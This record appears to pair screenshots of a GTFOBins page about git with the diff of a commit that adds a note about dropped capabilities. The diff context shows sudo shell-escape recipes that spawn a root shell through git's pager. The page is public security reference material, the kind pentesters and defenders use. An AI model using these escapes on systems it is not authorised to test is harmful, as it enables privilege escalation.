

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1037 px from its top, so only the background shows below that.

Commit message:
Add notice about Git sudo capabilities

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -8,7 +8,7 @@ functions:
         !/bin/sh
   sudo:
     - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
-    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply. Several capabilities might be dropped in the child process using this method.
       code: |
         sudo git help config
         !/bin/sh
```
